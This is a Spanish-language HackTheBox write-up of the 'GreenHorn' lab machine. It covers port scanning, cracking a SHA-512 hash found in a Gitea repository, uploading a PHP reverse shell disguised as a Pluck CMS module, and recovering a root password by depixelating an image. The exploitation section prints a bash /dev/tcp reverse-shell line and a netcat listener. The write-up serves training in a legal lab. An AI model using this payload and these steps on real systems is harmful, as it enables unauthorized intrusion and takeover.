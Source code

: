 ```yaml
---
title: GreenHorn
date: 2024-08-03
categories: [WRITEUPS, HackTheBox]
tags: [pluck, depix]  # TAG names should always be lowercase
image: /assets/images/hackthebox/htblogo.png
---
```


![picture](/assets/images/hackthebox/greenhorn1.png)

Buenas, en esta máquina encontraremos una contraseña cifrada, con la cual entraremos dentro del panel administrador de **Pluck**, y para la escalada de privilegios tendremos que **despixelar** una imagen en la cual se encuentra una contraseña.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos, será un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina, y conocer los servicios que corren por ellos.

```bash
nmap -p- --open -T5 10.10.11.25 -n -Pn -v
```

![picture](/assets/images/hackthebox/greenhorn2.png){: w="600" h="300" }

Añadimos el dominio **greenhorn.htb** junto con la *IP* al archivo **/etc/hosts**, esto se realiza para que resuelva el nombre del dominio.

![picture](/assets/images/hackthebox/greenhorn3.png)

Al no encontrar ningún puerto interesante por el que se pueda intentar algún tipo de explotación, vamos al navegador a ver de que se trata la página web tanto con el puerto **80**, como con el **3000**.

1. Puerto 80
    - Tras revisar la página web y su código, en busca de algún tipo de información, no he encontrado nada.

    ![picture](/assets/images/hackthebox/green4.png)

    - Haciendo un poco de **Fuzzing** manual, encontramos la ruta *http://greenhorn.htb/login.php*, en la que hay un panel de login de **Pluck** (gestor de contenidos CMS), con versión **4.7.18**, probando contraseñas comunes no he obtenido resultado.

    ![picture](/assets/images/hackthebox/green5.png){: w="600" h="300" }

2. Puerto 3000
    - En este puerto encontramos una web de **Gitea**, que es un paquete de software de código abierto para alojar el control de versiones utilizando **Git**. Navegando en esta web encontramos un repositorio llamado **GreenAdmin**.

    ![picture](/assets/images/hackthebox/green6.png)

    - Viendo el contenido de las carpetas del repositorio, nos encontramos con una contraseña cifrada en ***/data/settings***.

    ![picture](/assets/images/hackthebox/green7.png)

    ---

## **Explotación**

A continuación, vamos a intentar crackear la contraseña con ***John The Ripper*** en nuestra máquina local.

- Identificamos el tipo de cifrado hash con la herramienta **hash-identifier**, y vemos que el hash es del tipo "*SHA-512*".

    ![picture](/assets/images/hackthebox/green88.png)

- Se procede a crackear la contraseña cifrada, en busca de la contraseña en texto claro.

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512 hash.txt
    ```

    ![picture](/assets/images/hackthebox/green9.png)

Una vez encontrada la contraseña, se va a probar a entrar el el panel de **PLUCK**, y obtengo acceso.

![picture](/assets/images/hackthebox/green10.png)

Buscando en internet encontramos que la versión de **PLUCK** es vulnerable, en la parte de instalar módulos, podemos subir un archivo **.php**, el cual nos lo va a ejecutar.
La idea es subir una una **Reverse Shell** sencilla, pero hay un inconveniente, este CMS solo deja subir archivos **.zip**, con lo cual tendremos que modificar el archivo y crear un ***.zip***.

![picture](/assets/images/hackthebox/green11.png)

Nos ponemos en escucha con un **Listener** por el puerto **4444**, para que cuando subamos el archivo y nos ejecute la **Reverse Shell**, nos envíe una **Shell interactiva** a nuestra máquina local.

- Listener

    ```bash
    nc -nlvp 4444
    ```
- Reverse Shell (contenido)

    ```php
    exec("/bin/bash -c 'bash -i > /dev/tcp/Nuestra Ip/4444 0>&1'");
    ```

Y subimos el archivo **.zip**.

![picture](/assets/images/hackthebox/green12.png){: w="600" h="300" }

Una vez subido el archivo, nos envía la **Shell interactiva**, y estamos dentro de la máquina con el ussuario **www-data**.

![picture](/assets/images/hackthebox/green13.png){: w="600" h="300" }

---

## **Escalada de privilegios**

En el directorio **/home** encontramos un usuario llamado **junior**, probamos a conectarnos con la contraseña encontrada antes, y obtenemos acceso.

![picture](/assets/images/hackthebox/green14.png)

En el directorio personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/green15.png)

En el directorio personal, también encontramos un **pdf**, el cual nos lo vamos a traer a la máquina local para poder comprobar el contenido, para ello montamos un **servidor http** con **Python3** por el puerto **1234**, y nos lo descargamos con **wget** desde la máquina local.

```bash
python3 -m http.server 1234
```

![picture](/assets/images/hackthebox/green16.png)


Vemos que es una imagen con este texto, y una contraseña *pixelizada* e *ilegible*.

![picture](/assets/images/hackthebox/green17.png){: w="600" h="300" }

Para poder leer el contenido de la contraseña, vamos a utilizar una herramienta llamada ***DEPIX***, la cual podemos encontrar en [GitHub](https://github.com/spipm/Depix).

Antes convertimos el *pdf* al formato *ppm* con **pdfimages**.

![picture](/assets/images/hackthebox/green18.png)

Seguimos los pasos como lo indican en el repositorio de *GitHub*.

![picture](/assets/images/hackthebox/green19.png)

Y nos crea un archivo con la contraseña legible.

![picture](/assets/images/hackthebox/green20.png)

Probamos a migrar al usuario **privilegiado** **root**, obtenemos acceso, y en su directorio personal tenemos la segunda **flag**.

![picture](/assets/images/hackthebox/green21.png)

![picture](/assets/images/hackthebox/green22.png){: w="600" h="300" }



